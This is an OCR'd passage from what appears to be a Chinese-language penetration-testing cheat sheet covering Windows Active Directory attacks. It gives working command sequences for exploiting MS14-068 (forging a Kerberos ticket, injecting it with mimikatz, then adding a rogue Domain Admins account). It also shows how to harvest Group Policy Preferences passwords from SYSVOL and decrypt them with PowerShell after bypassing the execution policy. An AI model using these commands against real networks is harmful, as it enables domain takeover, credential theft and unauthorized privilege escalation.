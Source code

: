       针对ps的Empire https://github.com/EmpireProject/Empire

  38. ##### ms14-068 Kerberos漏洞利用：

      生成TGT：用于伪造

      ```
      whoami /all
      					  用户@ 域名                 用户sid    域主机
      python ms14068.py -u admin@xxx.com -p password -s sid -d dc.xxx.com
      ms14068.exe -u admin@xxx.com -p password -s sid -d dc.xxx.com 会生成TGT_admin@xxx.com.ccache
      ```

      注入TGT：

      ```
      klist
      klist purge 清除所有凭证，等一会在执行下列命令(https://www.t00ls.net/thread-28727-1-1.html)
      写入内存 mimikatz.exe "kerberos::ptc c:\TGT_admin@xxx.com.ccache" 
      ```

      若成功

      ```
      dir \\dc.xxx.com\c$
      net user admin xxxxx@password /add /domain
      net group "Domain Admins" admin /add /domain msf ms14_048_kerberos_checksum模块
      ```

  39. ##### GPP漏洞利用

      win2008增加，一般域用户都可访问敏感文件
      密码存在SYSCOL目录下:

      ```
      Groups.xml, 这个文件是域管通过GPP设置或修改本地密码留下的
      Services\Services.xml,
      ScheduledTasks\ScheduledTasks.xml,
      Printers\Printers.xml,
      Drives\Drives.xml,
      DataSources\DataSources.xml
      ```

      ```
      net use \\域控(如pc.xx.com) password /user:xxx.com\username 
      dir \\域控\SYSVOL /s /a > sysvol.txt
      findstr /i "groups.xml" sysvol.txt
      ```

      找到cpassword
      解密过程：

      ```
      set-executionPolicy bypass
      powershell -ep bypass     启动ps
      Import-Module .\GPP.ps1
      Get-DecryptedCpassword  xxxxxxxxxxxxxx
      ```
